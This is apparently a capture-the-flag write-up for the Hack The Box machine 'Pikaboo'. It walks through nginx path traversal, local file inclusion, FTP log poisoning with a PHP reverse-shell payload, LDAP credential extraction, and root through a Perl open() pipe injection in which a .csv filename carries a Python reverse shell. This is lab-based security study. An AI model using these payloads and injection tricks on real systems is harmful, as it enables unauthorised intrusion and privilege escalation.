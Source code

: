 ![PIKABOO](banner.png)

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

[Wappalyzer](https://www.wappalyzer.com/) shows us that there is a reverse nginx proxy. 

![nginx.png](nginx.png)

Since we didn't find anything else interesting we just searched for `ngninx reverse proxy exploit` on google and found [this article](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/).

So we followed that and ran [FFUF](https://github.com/ffuf/ffuf) like this:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://pikaboo.htb/admin../FUZZ 
```

And got some hits:
```
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
admin                   [Status: 401, Size: 456, Words: 42, Lines: 15]
javascript              [Status: 301, Size: 314, Words: 20, Lines: 10]
server-status           [Status: 200, Size: 6694, Words: 285, Lines: 130]
```

Since `server-status` is the only `Status: 200` hit we had a look at that.

![server-status.png](server-status.png)

Like this we discovered a new page: `http://pikaboo.htb/admin../admin_staging/`

## User

This page seems to include files/sites through the site paramter like this:
```
http://pikaboo.htb/admin../admin_staging/index.php?page=user.php
```

So we run [FFUF](https://github.com/ffuf/ffuf) with a LFI wordlist from [SecList](https://github.com/danielmiessler/SecLists).

And were able to include two files:
```
/var/log/vsftpd.log     [Status: 200, Size: 19803, Words: 3893, Lines: 414]
/var/log/wtmp           [Status: 200, Size: 174325, Words: 3286, Lines: 558]
```

Accessing it like this http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log we get a username `pwnmeow` and are also able to see the ftp login attempts.

We were able to do some log file poisioning by trying to login as user: `<?php phpinfo(); ?>` for example so we figured a php reverse shell should work here.
So we opened a new session:
```
nc -vn 10.129.196.252 21
```

and crafted this payload:
```
USER <?php $sock=fsockopen("10.10.14.66",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

for PASS we just put anything. When we now open the log file in our browser again we get a connection on our reverse shell.

## Root

Running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we quickly find an interesting cronjob:

```
* * * * * root /usr/local/bin/csvupdate_cron
```

However we need to become the user `pwnmeow` first. Enumerating the machine we found a password for ldap in `/opt/pokeapi/config/settings.py`.

```
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

With this password we can run:

```
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -v -b "DC=pikaboo,DC=htb"
```

To get this output containing the ftp password for `pwnmeow` in base64.

```
[...]
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
[...]
```

Credentials for ftp: `pwnmeow:_G0tT4_C4tcH_'3m_4lL!_`.

Since we are able to upload files through ftp as `pwnmeow` now we can abuse the cronjob for priv esc.

The cronjob runs some perl script which basically runs another perlscript `/usr/local/bin/csvupdate` which opens all .csv files in the directories in `/srv/ftp/`.

```perl
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";
```

Searching for perl opening files vulnerabilities we found [this stackoverflow post](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention).

So the way this script opens files is insecure as we have full control over the file name. When we create a new file with a filename like this:
```
| echo "pwned" |.csv
```
the command between the pipes gets executed. Of course we won't see the output in this example but we tested it with a wget command. So now we only need to craft a filename with a reverse shell:

```
touch "| python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.76\",4545));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"sh\")' |.csv"
```

You can upload this file using CLI or like we did using [filezilla](https://filezilla-project.org/).

![filezilla.png](filezilla.png)

Now you only need to wait for your shell to become root.
